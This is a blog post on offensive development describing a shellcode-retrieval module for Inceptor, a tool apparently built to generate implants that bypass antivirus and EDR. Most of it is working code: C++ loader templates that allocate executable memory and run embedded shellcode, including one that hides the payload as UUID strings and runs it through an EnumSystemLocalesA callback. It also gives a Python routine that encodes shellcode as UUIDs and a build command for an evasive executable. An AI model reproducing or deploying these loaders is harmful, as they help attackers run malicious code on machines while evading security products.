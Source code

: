 ```yaml
---
title: "Offensive Development - Implementing Shellcode Retrieval"
date: 2021-11-19 01:55:55 +0100
categories: [Offensive Development, Windows]
tags: [shellcode, embedding, retrieval]     # TAG names should always be lowercase
---
```


# Implementing Shellcode Retrieval

Recently, I developed a PoC AV/EDR Framework, called [Inceptor][1]. More information about the tool can
be found in the repository itself, and in the accompanying [blog post](../AV-Evasion-CodeExecNewDotnet/).

What is important to know, is that Inceptor is a tool which can help to automate the process of developing 
implants which can automatically bypass common AV and EDR solutions. By default, Inceptor embeds
shellcode or PE (transformed into shellcode) within wrappers (or "templates"), which are designed to
load and execute them. Templates are editable, but till now the shellcode was always embedded very crudely 
within the template, in the form of a byte array.

A very easy example is provided below:

```cpp
// Shellcode embedded in the template
const unsigned char raw[] = "####SHELLCODE####";
int length = sizeof(raw);
// Allocate RWX space for the shellcode
VOID* mem = VirtualAlloc(NULL, length, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
bool success = false;
// Copy shellcode in memory 
success = memcpy(mem, raw, length);
// Function pointer to the start of the shellcode
int (*my_main)() = (int(*)()) ((ULONGLONG)mem);
// Execution
my_main();
```

This example serves just as a PoC. As such, we are not considering issues as having a RWX region of memory, 
lack of error handling, direct use of Windows APIs (which can be hooked), etc.

The issue we are interested in, for the scope of this post, is having the shellcode embedded as a byte array. 
Indeed, having large binary blob can be suspicious if the program is statically reversed. In some cases, as
with C# payloads, this can be really easily spotted, even with strong obfuscation in place.

Moreover, as observable in other researches, like [Lazarus-Shellcode-Execution](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/) by 
NCC Group, some forms of injection may use a special format, requiring the binary blob to further transformed.

However, so far, the shellcode format couldn't really be modified at all in Inceptor, which really limited 
the possibility of having other formats or retrieval mechanisms.

## The Shellcode Retrieval Module

In Inceptor, a user could already add or extend the tool functionality by adding or modifying a template or
a module. A module can be thought as a pluggable set of functionalities which can be added to a template.
Modules themselves are based on templates, which can be adapted, changed, or added, to provide the maximum 
level of customisation.

Based on this model, I thought it could be nice and easy to implement the shellcode embedding process as
a module itself. This is how it works:

![image](imgs/blog/003AVEvasion/srm.png)

As observable from the image, the logic is pretty simple. The `IShellcodeRetrievalModule` and 
`ShellcodeRetrievalModule` abstract classes act as the main interfaces for shellcode retrieval mechanisms. 
Actually, the `ShellcodeRetrievalModule` abstract class provides a genera logic for all modules which just performs operations
on the shellcode, while the `IShellcodeRetrievalModule` abstract class provides an empty interface for all 
Shellcode retrieval mechanisms which are too specialised to be generalised.

Important to note that with this logic, at least a shellcode retrieval module needs to be loaded. If no
SRM are detected, Inceptor will indeed load the `BlobShellcodeRetrievalModule` by default.

Every SRM module, by itself, wraps a function which returns the shellcode which needs to be loaded in memory.
The function is compiled with the shellcode (or other mechanism) within a `.lib` file, along with a 
header file with the function declaration. The Library is then linked to the final payload. 
The function symbol is known at Linking time thanks to header previously generated.

## Implementing UUID Shellcode Execute

Implemented the general SRM, it is possible to implement a specific shellcode retrieval mechanism.
The first test case was indeed the UUID-ShellExecute. This kind of mechanism is ideal because it doesn't 
change the general concept of shellcode embedding (the shellcode is indeed still embedded in the payload)
but changes its format from a bytearray to a sequence of UUID strings.

As `ShellcodeRetrievalModule` already implements the logic behind the header creation and library compilation,
the only thing needed to implement is the shellcode formatting. To do that, all ShellcodeRetrievalModule 
implementations must implement the `craft()` method.

We can borrow and adapt one of the Python implementations available on internet, such as the one by [Boku7](https://github.com/boku7/Ninja_UUID_Runner/blob/main/bin2uuids.py) 
or the one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/shellcodeToUUID.py).

The final implementation of craft would be the following:
```python
def craft(self, shellcode, language) -> (str, list, str):
    Console.warn_line("[WARNING] This module is only supported by 'uuid' based templates")
    Console.warn_line("[WARNING] This module is not compatible with LD encoders")
    data = shellcode
    if isinstance(shellcode, str):
        data = unhexlify(shellcode)
    if len(data) % 16 != 0:
        padding = b"\x90" * (16 - (len(data) % 16))
        data += padding
    uuids = []
    for i in range(0, len(data), 16):
        uuid_string = str(uuid.UUID(bytes_le=data[i:i + 16]))
        uuids.append(f'"{uuid_string}"')
    self.uuids = ",\n".join(uuids)
    self.shellcode_length = len(uuids)
    if language == Language.POWERSHELL:
        raise ModuleNotCompatibleException

    if language == Language.CSHARP:
        return "string[]", [], self.uuids
    elif language == Language.CPP:
        return "char**", [], self.uuids
```

The return tuple would be the triple `(return_type, [list of arguments], formatted_shellcode)`. Each of
the unpacked values would be then used to modify a function template similar to the following:

```
####RETURN_TYPE#### myFunction(####ARGS####){
    char* uuids[] = {
        ####SHELLLCODE####
    }
    ...
}
```

Although arguments substitution is mainly still a work in progress and far from being stable, this
substitution pattern has proven to offer good customization / stability tradeoff. 

Finally, it's necessary to implement a template supporting UUID-Shellcode Execution. For this task,
we can easily borrow an existing implementation, as the C++ by [NCC Group](https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014/)
and the C# one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/USEConsole/Program.cs), which is using D/Invoke. 

The final template would be similar to the following>

```c
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
//####USING####

//####DEFINE####

#pragma comment(lib, "Rpcrt4.lib")


int main()
{

    //####DELAY####
    //####SELF_DELETE####
    //####UNHOOK####
    //####ANTIDEBUG####

    char** uuids = ####SHELLCODE####;
    int elems = ####SHELLCODE_LENGTH####;

    VOID* ha = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
    DWORD_PTR hptr = (DWORD_PTR)ha;

    for (int i = 0; i < elems; i++) {
        printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
        printf("%s\n", *(uuids+i));
        RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
        if (status != RPC_S_OK) {
            printf("[-] Something went wrong\n");
            CloseHandle(ha);
            return -1;
        }
         hptr += 16;
    }

    EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
    CloseHandle(ha);
    return 0;
}
```

And finally testing it using the following command line:

```
python inceptor.py native tests\calc64.raw -o uuid-shellexec.exe -m uuid_shellcode_retrieval
```

And it worked! 

![Calc](imgs/blog/003AVEvasion/calc.png)

Of course, this is just the start of the game. Now, that is possible to implement arbitrary methods to
retrieve the shellcode, it's a matter of time to come up with new, creative ways to hide and retrieve 
our code. In another post, I'll cover how it's possible to leverage the SRM interface to load payloads 
embedded as a local resource or ICON file (technique borrowed from Sektor7). 

## References

* [RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)

[1]: https://github.com/klezVirus/inceptor.git
